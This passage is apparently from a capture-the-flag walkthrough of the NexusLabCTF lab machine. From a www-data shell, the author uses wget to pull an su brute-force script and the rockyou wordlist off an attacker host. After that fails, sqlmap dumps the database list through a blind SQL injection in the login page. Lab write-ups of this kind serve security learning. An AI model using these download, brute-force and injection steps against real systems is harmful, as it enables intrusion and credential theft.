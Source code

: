 I copy the files to my directory and using python I start a http server in order to share those files

```shell
www-data@NexusLabCTF:/tmp$ wget http://192.168.1.18/suBF.sh
--2025-06-10 15:50:22--  http://192.168.1.18/suBF.sh
Connecting to 192.168.1.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2340 (2.3K) [application/x-sh]
Saving to: 'suBF.sh'

suBF.sh             100%[===================>]   2.29K  --.-KB/s    in 0.001s  

2025-06-10 15:50:22 (1.63 MB/s) - 'suBF.sh' saved [2340/2340]

www-data@NexusLabCTF:/tmp$ wget http://192.168.1.18/rockyou.txt
--2025-06-10 15:50:29--  http://192.168.1.18/rockyou.txt
Connecting to 192.168.1.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 139921497 (133M) [text/plain]
Saving to: 'rockyou.txt'

rockyou.txt         100%[===================>] 133.44M  2.33MB/s    in 62s     

2025-06-10 15:51:31 (2.15 MB/s) - 'rockyou.txt' saved [139921497/139921497]
```

Once we got the files in the target machines using `wget` we can start brute forcing. 

In an attemp to bruteforce shelly I didn't get nothing so go back to the login page.

SInce is a SQL Blind injection I'm going to dump the databases using `sqlmap` in order to do it quickly

```shell
sqlmap http://192.168.1.14/auth-login.php --form --dbs --batch
```

```shell
available databases [6]:
[*] information_schema
[*] mysql
[*] Nebuchadnezzar
[*] performance_schema
[*] sion
[*] sys
```

```shell
sqlmap http://192.168.1.14/auth-login.php --form -D Nebuchadnezzar --tables --batch
```

```shell
[1 table]
+-------+
| users |
+-------+
```
